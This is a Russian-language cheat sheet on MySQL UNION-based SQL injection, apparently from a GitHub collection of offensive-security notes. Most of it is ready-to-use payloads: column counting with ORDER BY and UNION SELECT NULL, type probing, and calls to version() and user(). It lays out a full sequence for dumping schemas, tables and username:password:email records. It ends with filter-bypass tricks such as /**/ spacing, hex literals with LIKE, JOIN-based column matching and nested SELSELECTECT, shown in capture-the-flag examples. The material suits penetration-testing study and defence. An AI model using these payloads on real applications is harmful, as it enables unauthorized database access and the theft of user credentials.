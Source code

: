 # MySQL UNION Injection

### Общее представление об атаке SQL UNION Injection

Реализуется в случае, если результаты SQL-запроса возвращаются в ответе приложения. Ответы могут быть разными: ошибки приложения, ошибки сервера, результаты запросов и другие.

**Оператор UNION позволяет запускать один и более SELECT-запросов. Например:**

```sql
SELECT a, b FROM table1 UNION SELECT c, d FROM table2
```

Данный SQL-запрос вернет один ответ с двумя столбцами, содержащими значения из столбцов a и b в table1 и столбцов c и d в table2.

**Чтобы UNION запрос сработал должны быть выполнены два ключевых момента:**

* Отдельные запросы должны возвращать одинаковое количество столбцов
* Типы данных в каждом стобце должны быть совместимы между отдельными запросами

**Чтобы успешно выполнить атаку SQLi UNION необходим знать:**

* Сколько столбцов возвращается из исходного запроса?
* Тип данных каждого столбца

### **Определение количества столбцов:**

Есть два способа определения количества столбцов: через `ORDER BY` и `UNION SELECT`.

**Первый способ** - через `ORDER BY` это реализуется угадыванием количества столбцов, например:

```sql
' ORDER BY 1 -- -
' ORDER BY 2 -- -
' ORDER BY 3 -- -
```

Итак, если в таблице есть 3 стобца, то на `ORDER BY 1--` будет ответ TRUE, т.е. вместо ошибки(500 ответа сервера), будет 200 ОК. И таким образом нужно перебирать значения, вплоть до 4-х, так как на `ORDER BY 4--` вылетит ошибка, обозначающая, что в таблице только 3 столбца.

**Второй способ** - через UNION SELECT:

```sql
' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
' UNION SELECT NULL,NULL,NULL--
```

Тут все также - перебираем NULL, пока не получим 200 ОК. Если взять таблицу с тремя столбцами, то ответы будут примерно такими:

```
' UNION SELECT NULL-- (500)
' UNION SELECT NULL,NULL-- (500)
' UNION SELECT NULL,NULL,NULL-- (200 OK)
```

Используем NULL, потому что NULL подходит для всех типов данных.

### **Определение типа данных каждого столбца:**

Делается это методом перебора до получения(200 ОК), т.е. когда перестанут вылетать ошибки.

```
' UNION SELECT 'a',NULL,NULL,NULL --
' UNION SELECT NULL,'a',NULL,NULL --
' UNION SELECT NULL,NULL,'a',NULL -- 
```

**Использование внутренних функций базы данных**:

Когда мы знаем количество столбцов, мы можем сделать данную вещь:

```
' UNION SELECT version(),null,null -- -
```

Ответ может быть примерно таким(вместо вывода имени пользователя выводится результат функции `version()`):

```
(...)
Sorry, 8.0.27-0ubuntu0.20.04.1 you are not eligible due to already qualifying.
(...)
```

**Некоторые функции из MySQL:**

```
@@hostname - имя хоста
@@tmpdir - директория /tmp/
@@datadir - директория /data
@@version - версия БД
@@basedir - базовая директория
user() - имя пользователя
database() - база данных
version() - версия
schema() - база данных
UUID() - системный UUID ключ
current_user() - текущий пользователь
current_user - текущий пользователь
system_user() - системный пользователь
session_user() - сессионый пользователь
@@GLOBAL.have_symlink - проверка на включенные/отключенные символьные ссылки
@@GLOBAL.have_ssl - проверка на SSL
```

### Последовательность действий для выполнения успешной атаки

Выводим все базы данных:

```sql
'union select group_concat(schema_name) from information_schema.schemata
```

Выводим все таблицы из базы данных `database1`:

```sql
'union select group_concat(table_name) from information_schema.tables where table_schema='database1'
```

Выводим все колонки из таблицы `table1`, которая находится в базе данных `database1`:

```sql
'union select group_concat(column_name) from information_schema.columns where table_schema='database1' and table_name='table1'
```

Выводим все данные `username`, `password`, `email` из таблицы `table1`, которая находится в базе данных `database1`:

```sql
Injection=> select group_concat("\n", username,":",password,":",email,"\n") from database1.table1
```

## Обход фильтров

### Запрещено \[ , ' ( ) + = \ " ] + и пробел:

```sql
SELECT * FROM age WHERE age=$age
```

Вместо пробела можно использовать `/**/`, а вместо `where name='b548d45080b9d110'` использовать `where name like 0x62353438643435303830623964313130`:

```sql
1337/**/union/**/select/**/*/**/from/**/flags/**/where/**/name/**/like/**/0x62353438643435303830623964313130
```

### Запрещено все, кроме символов: a-z A-Z 0-9 ' ( ) , ] + и обход защиты от select:

```
SELECT * FROM age WHERE age=$age
```

Так как в таблице очень много флагов и нам нужен флаг с `name`=`3f1a76e536a0a805`, то нужно указать фильтр вывода, например, `where name='3f1a76e536a0a805'`, но знак `=` запрещен, следовательно можно использовать `LIKE` вместе с хексовым значением `name`:

```
1337 union Select null,name,flag From flags where name like 0x33663161373665353336613061383035
```

### Запрещено все, кроме символов: a-z A-Z 0-9 ' ( ) \* и обход защиты от select:

```
SELECT * FROM age WHERE age=$age
```

Так как мы не можем перебрать количество колонок через `union select null,<null>,<...>`, то можно это сделать через JOIN AS:

```
1337 union Select * from flag JOIN (Select 'qwe') as a
```

Ответ:

```
MySQL error: The used SELECT statements have a different number of columns
```

Пробуем добавить еще одну колонку:

```
1337 union Select * from flag JOIN (Select 'qwe') as a JOIN (Select 'qwe') as b
```

И в ответе мы получаем флаг

### Запрещен SELECT полностью:

```
SELECT * FROM age WHERE age=$age
```

Можно использовать SELSELECTECT, если фильтры единоразово вырезают SELECT без цикла:

```
1337 union SELSELECTECT null,null,flag from flag
```
